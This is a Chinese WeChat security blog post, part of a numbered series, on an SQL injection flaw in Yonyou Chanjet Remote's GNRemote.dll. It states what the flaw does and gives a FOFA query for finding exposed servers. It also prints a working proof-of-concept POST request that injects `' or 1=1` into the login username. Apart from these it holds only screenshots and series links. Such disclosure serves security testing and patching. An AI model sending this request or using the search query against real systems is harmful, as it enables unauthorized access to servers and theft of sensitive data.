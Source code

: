 #  知识分享7：用友 畅捷通远程通 GNRemote.dll SQL注入漏洞

[ 安全攻防渗透 ](javascript:void\(0\);)

**安全攻防渗透** ![]()

微信号 co01fire

功能介绍 信息安全领域原创公号，专注信安领域人才培养和知识分享，致力于帮助叁年以下信安从业者的学习和成长。

____

___发表于_

收录于合集

#用友 17 个

#网络安全 41 个

#漏洞分析 23 个

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714174917.png)

点击上方“安全攻防渗透”关注我~

Tips **：用友Web应用漏洞_4** **\- 漏洞描述  -**用友 畅捷通远程通 GNRemote.dll
SQL注入漏洞，攻击者通过SQL注入从而获取服务器上的敏感信息，甚至可以通过注入恶意代码来控制设备。

 **-  影响范围 -**

用友 畅捷通远程通

 ** **\- FOFA  -****  

body="远程通CHANJET_Remote" **\- 漏洞复现 -**

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714174918.png)

 **POC**

  *   *   * 

    
    
     POST /GNRemote.dll?GNFunction=LoginServer&decorator=text_wrap&frombrowser=esl  
    username=%22'%20or%201%3d1%3b%22&password=%018d8cbc8bfc24f018&ClientStatus=1

‍

 **抓包请求  
**

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714174919.png)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714174920.png)

  

 ****end  
 **这就是【知识分享】 **文章系列** 第【7】篇：《用友 畅捷通远程通 GNRemote.dll
SQL注入漏洞》，如果你觉得本篇写得不错，或者这个系列值得关注，可以表达你的意见！**

 ** **-延伸阅读**** ** **-****

[知识分享：（Hvv行动专题）安全漏洞PoC专题预告](http://mp.weixin.qq.com/s?__biz=Mzg5NjU5NjA3Nw==&mid=2247483926&idx=1&sn=0155ab58b4edf3e5c6224501ce5d327b&chksm=c07fe314f7086a0248513e789f3592916f5e5927f53b45c14105b41d93e610f63d8e5812a3eb&scene=21#wechat_redirect)  
[](http://mp.weixin.qq.com/s?__biz=Mzg5NjU5NjA3Nw==&mid=2247483809&idx=1&sn=30b54e26a575c3057a87eec52d2774a4&chksm=c07fe0a3f70869b58be927c364f82cf70ab16c877c8a2aefdf22ff82184c6974e1168bfcad1c&scene=21#wechat_redirect)

[知识分享1：[CVE-2018-18778]ACME Mini_httpd
任意文件读取漏洞（Web服务器漏洞）](http://mp.weixin.qq.com/s?__biz=Mzg5NjU5NjA3Nw==&mid=2247483926&idx=2&sn=20616e5e03e5ddae7da29f39bdfca57f&chksm=c07fe314f7086a025cc29e513a2bd09282e97f6cc1adf5446fc21998e41935865202c73fffa6&scene=21#wechat_redirect)  

[知识分享2：攻击姿势大全](http://mp.weixin.qq.com/s?__biz=Mzg5NjU5NjA3Nw==&mid=2247483926&idx=4&sn=dab8afa931923f718fb5d88fecd23d30&chksm=c07fe314f7086a0271352e9f5da59569202646bd6c480f73aa91c179eac2a7fa306e8658f838&scene=21#wechat_redirect)

  
[](http://mp.weixin.qq.com/s?__biz=Mzg5NjU5NjA3Nw==&mid=2247483809&idx=1&sn=30b54e26a575c3057a87eec52d2774a4&chksm=c07fe0a3f70869b58be927c364f82cf70ab16c877c8a2aefdf22ff82184c6974e1168bfcad1c&scene=21#wechat_redirect)

  

 ** ** ** **-聆听你的声音**** ** **-********

 ** **         如果你有独到的想法和建议，欢迎私信与我一同分享！****

  

 ** ******

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714174921.png)

  

  

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

